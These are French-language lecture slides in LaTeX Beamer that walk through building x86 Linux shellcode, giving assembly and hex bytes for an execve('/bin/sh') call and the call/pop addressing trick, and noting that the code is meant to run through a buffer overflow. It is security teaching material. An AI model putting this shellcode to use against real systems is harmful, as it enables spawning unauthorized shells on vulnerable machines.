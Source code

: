 \begin{frame}[fragile] 
\frametitle{Apr\`es compilation et avant \'edition de liens}
\begin{verbatim}
                      .text
0000 2F62696E txt:    .string "/bin/sh"
     2F736800 
0008 00000000         .long txt      /* En prime on obtient
000c 00000000         .long 0           m\^eme le code
                      .globl _start     hexad\'ecimal
0010 B80B0000 _start: movl $0xb,%eax    correspondant i.e.
     00                                 le code dans le
0015 BB000000         movl $txt,%ebx    segment de code
     00                                 ex\'ecut\'e par
001a B9080000         movl $txt+8,%ecx  la machine      */
     00
001f 89CA             movl  %ecx,%edx    
0021 83C204           addl  $4,%edx      
0024 CD80             int   $0x80
0026 BB000000 done:   movl  $0,%ebx    
     00
002b B8010000         movl  $1,%eax   
     00
0030 CD80             int   $0x80     
\end{verbatim}
\end{frame}
\begin{frame}
  \frametitle{Adressage relatif des \'etiquettes}%
  Le premier probl\`eme rencontr\'e est que l'on ne sait pas o\`u ce
  trouve les donn\'ees de notre programme en m\'emoire i.e.\ on ne
  conna\^\i{}t pas l'\'etiquette \texttt{txt}.
  \par\bigskip
  Pour s'en sortir, on se sert de la pile --- une fois encore --- et
  du fait que les instructions call et jmp peuvent prendre un argument
  relatif (une constante).
  \par\bigskip
  Si on place un \texttt{call} juste avant les donn\'ees, l'adresse de
  retour --- correspondant aux donn\'ees --- sera empil\'ee et pourra
  \^etre d\'epil\'ee avec un \texttt{pop}.
  \par\bigskip
  Il ne restera plus qu'\`a r\'ecup\'erer cette adresse et brancher
  sur le code que l'on d\'esire ex\'ecuter.
\end{frame}
\begin{frame}[fragile]
  \frametitle{Application de ce principe}%
\begin{verbatim}
 0000 E8100000  call .+0x15
      00
 0005 2F62696E  .string "/bin/sh"
      2F736800 
 000d 00000000  .long 0           /* pour un pointeur     */  
 0011 00000000  .long 0           /* NULL                 */
 0015 5B        pop  %ebx         /* adresse de "/bin/sh" */
 0016 895B08    movl %ebx,8(%ebx) /* placer le pointeur   */
 0019 B80B0000  movl $0xb,%eax    /* num\`ero de l'appel  */
      00
 001e 8D4B08    leal 8(%ebx), %ecx 
 0021 8D530C    leal 12(%ebx), %edx
 0024 CD80      int  $0x80
 0026 BB000000  movl $0,%ebx     /* pour sortir proprement */
      00
 002b B8010000  movl $1,%eax    
      00 CD80   int  $0x80      
\end{verbatim}
  Ce code ne peut pas marcher comme un processus normal car il \'ecrit
  dans le segment de code\ldots\ mais on peut le faire par
  d\'ebordement.
\end{frame}
